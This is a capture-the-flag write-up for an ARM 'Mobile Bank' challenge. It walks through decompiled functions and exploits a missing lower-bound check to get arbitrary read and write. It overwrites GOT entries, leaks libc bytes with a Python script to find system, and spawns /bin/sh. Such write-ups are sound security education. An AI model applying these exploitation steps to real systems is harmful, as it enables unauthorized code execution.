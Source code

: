 # Mobile Bank

In this task we are given single binary and tcp server to connect to.

## Solution

![checksec.png](checksec.png)

Since its arm binary, I will use qemu to run it, looks like that:

![menu.png](menu.png)

Lets now explore all those functions in IDA(I added names, binary is stripped). There is also one hidden option, but it turned out it wasn't needed.

```c
int __fastcall sub_11284(int a1, int a2)
{
  int v2; // r0
  int v3; // r1

  setup();
  print_ascii_art();
  while ( 1 )
  {
    print_menu();
    v2 = get_int();
    switch ( v2 )
    {
      case 0:
        puts("Bye!");
        cleanup();
        return 0;
      case 1:
        print_info(v2, v3);
        break;
      case 2:
        set_acc_id();
        break;
      case 3:
        set_acc_note();
        break;
      case 4:
        make_transaction();
        break;
      case 5:
        print_account_info();
        break;
      case 6:
        enable_debug(v2, v3);
        break;
      case 7:
        if ( debug )
          debug_function(v2, v3);
        else
          puts("Invalid command!");
        break;
      default:
        puts("Invalid command!");
        break;
    }
  }
}
```

Function `get_int` reads from `stdin` and uses `atoi` to convert input to int. Looking at function `set_acc_id` we can see that is checks upper bound(`result > 15`), but its signed comparison and it doesn't check if input is lower than 0.

```c
signed int set_acc_id()
{
  signed int result; // r0

  printf("Enter account id: ");
  result = get_int();
  if ( result > 15 )
    return puts("Wrong account id!");
  acc_id = result;
  return result;
}
```

Exploring more, You can notice there is global array of (int, pointer) pairs. Let's look at `set_acc_note`, `make_transaction` and `print_account_info` functions.
```c
char *set_acc_note()
{
  char *dest; // ST08_4
  char *result; // r0
  size_t v2; // [sp+4h] [bp-110h]
  char src; // [sp+Ch] [bp-108h]

  printf("Enter account note: ");
  v2 = read_from_stdin(&src, 256);
  if ( global_arr[2 * acc_id + 1] )
  {
    free(global_arr[2 * acc_id + 1]);
    global_arr[2 * acc_id + 1] = 0;
  }
  dest = (char *)malloc(v2 + 1);
  result = strcpy(dest, &src);
  global_arr[2 * acc_id + 1] = dest;
  return result;
}
```

```c
int make_transaction()
{
  int result; // r0

  printf("Enter transaction value: ");
  result = get_int();
  global_arr[2 * acc_id] = (char *)global_arr[2 * acc_id] + result;
  return result;
}
```

```c
int print_account_info()
{
  void *v0; // r3
  char s; // [sp+Ch] [bp-158h]

  if ( global_arr[2 * acc_id + 1] )
    v0 = global_arr[2 * acc_id + 1];
  else
    v0 = &unk_1196C;
  snprintf(&s, 0x150u, "id: %u, value: %d$, note:\"%s\"", acc_id, global_arr[2 * acc_id], v0);
  return puts(&s);
}
```

Note that since  `acc_id` can be < 0, we have (almost) arbitrary write using `make_transaction` function, we can write only to adresses divisible by 8. Also using `print_account_info` we have arbitrary read, limited to adresses divisible by 8, but also only when `%s` doesn't trigger `SIGSEGV`.  If challenge authors provided us libc used on the server, we could exploit leaking libc base address and overriting some GOT entry with `system` address, and then calling `system("/bin/sh")`, so the only thing we need is `system` offset. I tried to leak libc functions adresses and then look at some libc database, but I couldn't find anything, also I tried to look at my libc offsets and subtract then from leaked addresses, but it doesn't look right:
```
malloc: 0xb6d39fb8
strcpy: 0xb6d39b20
```
We have to notice that offsets don't change that much between versions, result is approximately correct, so probably libc base is `0xb6d39000`. To verify that, we need real arbitrary read primitive, to get that, we can:
1. Overrite `malloc` GOT entry to `get_int` address.
2. Overrite `strcpy` GOT entry to some NOP function to prevent `SIGSEGV` in `set_acc_note`(we can also use next intruction after `strcpy` call).

Now we fully control the pointer which is used with `%s` format is `print_account_info`. Lets use that to look at first few bytes of guessed libc base:
![elf.png](elf.png)
It's ELF header, so my hypothesis was correct. Now the plan is following:

1. Find `system` offset in my local libc.
2. Leak some memory starting somewhere near libc_base + system_offset.
3. Find `system` addres by it's signature.

Unfortunately, out leaking function is `snprintf`, which stops on null byte, which means we will have to write a script and leak those bytes in a loop.

```python
guess_system_addr = libc_base_guess + SYSTEM_OFFSET

res = read('out2')
cnt =  len(res)
set_acc_id(2)

for i in  range(10000):
print i
set_acc_note('asdf', ctypes.c_int(guess_system_addr + cnt).value)
_, note = print_acc_info()
note +=  '\x00'
cnt +=  len(note)
res += note
if i %  10  ==  0:
	with  open('out2', 'wb') as f:
	f.write(res)
```

I loaded my local libc version in IDA and checked first 2 bytes of `system`.  After few minutes of leaking, I checked if they are present in leaked memory, and yes they are.
```
In [23]: leaked_mem.find('\x00\xb1')                               
Out[23]: 1412
```
it could be false positive since 3rd byte wasnt correct, but I manually checked few other bytes and they seemed correct. Now, I overwritten memcmp GOT entry to the `system` adress, and using this code in `enable_debug` function
```c
...
printf("Enter password: ");
read(0, &buf, 0x10u);
if ( !memcmp(&buf, &unk_22108, 0x10u) )
...
```

triggered `system("/bin/sh")`.

This solution was probably unintended, since I've never used hidden `debug_function`(we could easily enable it by writing something else than 0 to the `debug` variable), which was vulnerable to buffer overflow.

```c
int debug_function()
{
  size_t n; // ST14_4
  char *v1; // r3
  char *v3; // [sp+Ch] [bp-218h]
  char *v4; // [sp+Ch] [bp-218h]
  signed int i; // [sp+10h] [bp-214h]
  char *v6; // [sp+18h] [bp-20Ch]
  char s; // [sp+1Ch] [bp-208h]
  int v8; // [sp+21Ch] [bp-8h]

  memset(&s, 0, 0x200u);
  v3 = &s;
  for ( i = 0; i <= 15; ++i )
  {
    v4 = &v3[snprintf(v3, (char *)&v8 - v3, "%u\t%d$\t", i, global_arr[2 * i])];
    v6 = (char *)global_arr[2 * i + 1];
    if ( v6 )
    {
      n = strlen(v6);
      memcpy(v4, v6, n);
      v4 += n;
    }
    v1 = v4;
    v3 = v4 + 1;
    *v1 = 10;
  }
  puts("*******************$$$Debug$$$******************");
  printf("%s", &s);
  return puts("************************************************");
}
```
I didn't want to use that since there is stack canary, I'm not familiar with arm assembly, and jumping to `system` just seemed easier.
I also believe you could somehow find that libc version, in some database, but it was pretty fun to leak it and find offset myself.



